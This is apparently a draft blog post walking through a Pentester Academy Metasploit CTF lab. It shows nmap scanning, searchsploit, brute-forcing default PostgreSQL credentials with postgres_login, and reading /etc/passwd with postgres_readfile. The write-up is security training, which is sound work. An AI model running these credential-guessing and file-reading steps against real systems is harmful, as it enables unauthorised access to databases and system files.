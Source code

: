 +++
author = "Nick"
date = 2019-12-31T16:28:46Z
description = ""
draft = true
slug = "attack-defense-metasploit-ctf-4"
title = "Attack | Defense - Metasploit CTF 6"
url = "/attack-defense-metasploit-ctf-4" 

+++


Welcome back to the third entry in this series. In the last entry we used two `Metasploit` modules to obtain `Tomcat` credentials and leverage them with an authenticated RCE.

## Overview
In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two `Metasploit` modules. A module to test for valid user credentials and an authenticated RCE.

## Network Topology

![](/images/2019/12/image-77.png)

## Enumeration
If you've been following along, you know that we being our enumeration process with `nmap`. We'll now start to combine the set of command options we've learned. Let's obtain our IP and scan our subnet:

Command:
`nmap -sV -T5 192.207.101.1/24`

Here are our results:
```
Nmap scan report for target-1 (192.207.101.3)
Host is up (0.000015s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE    VERSION
5432/tcp open  postgresql PostgreSQL DB
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5432-TCP:V=7.70%I=7%D=12/31%Time=5E0B78A3%P=x86_64-pc-linux-gnu%r(S
SF:MBProgNeg,85,"E\0\0\0\x84SFATAL\0C0A000\0Munsupported\x20frontend\x20pr
SF:otocol\x2065363\.19778:\x20server\x20supports\x201\.0\x20to\x203\.0\0Fp
SF:ostmaster\.c\0L2014\0RProcessStartupPacket\0\0");
MAC Address: 02:42:C0:CF:65:03 (Unknown)

Nmap scan report for target-2 (192.207.101.4)
Host is up (0.000014s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.23
MAC Address: 02:42:C0:CF:65:04 (Unknown)
```

We see that `target-1` is a `PostgresSQL` service running. `Target-2` has a familiar friend running as well, `mysql`. We can run these services through `searchsploit`.

Command:
`searchsploit postgres`

We get back some good results:

![](/images/2019/12/image-87.png)

We'll load up `Metasploit` and check out the modules.

Command:
`msfdb run` or `msfconsole`

Once inside we will `search` for `postgres`.

![](/images/2019/12/image-89.png" caption=")

Similar to what we did in the third CTF. We are going to look to enumerate user credentials. We'll start with using the `postrgres_login` module.

Command:
`msf5> use auxiliarty/scanner/postgres/postgres_login` or `msf5> use 8`

Next we'll `show` our options.

Command:
`msf5> show options`

![](/images/2019/12/image-91.png)

For this module we will need to set our `rhosts`. Optionally we can set a password list but in this case we'll just use our defaults.

Command:
`msf5> set rhost target-1`

Then we `run` the module.

Command:
`msf5> run`

![](/images/2019/12/image-90.png)

We get a valid credential set: `postrgres`:`postgres`. Next we need to leverage these commands. We have a few authenticated modules in our listing. The first we are going to try with this set of credentials is `auxiliary/admin/postgres/postgres_readfile`. This is the same method we used in CTF 2. We will first try to read `/etc/passwd` to verify we have permissions.

Command:
`msf5> use auxiliary/admin/postgres/postgres_readfile`

We then set our `rhosts` parameter.

Command:
`msf5> set rhosts target-1`

Then we `run` it.

![](/images/2019/12/CTF_4_postgres.gif)

We do have the ability to read the file.



